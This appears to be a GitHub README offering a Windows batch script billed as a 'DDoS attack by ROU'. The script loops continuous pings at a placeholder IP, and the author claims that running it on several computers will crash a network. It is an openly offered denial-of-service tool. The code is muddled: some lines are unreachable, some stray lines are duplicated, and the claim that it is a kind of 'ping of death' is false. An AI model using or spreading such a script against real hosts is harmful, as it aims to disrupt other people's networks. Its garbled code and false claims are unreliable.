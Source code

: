 # DDos-attack-by-ROU
DDos attack a type of ping of death but works better that that runs on windows as a cmd this will slow down internet if runs on multiple laptops or computers it will crash a network written by TFH the ROU 
Run this code in windows cmd promt 

run
Color 0A
@echo off
cls
Set Sleep=0
:start
echo start dos attack written by TFH The Dark King
:loop
ping Insert IP -t -w 1 -n 1
goto :loop
Set /A Sleep+=1
echo DisplayingSleepvalue
echo %Sleep%
goto start start cmd.exe
run
start cmd.exe
run
Color 0A
@echo off
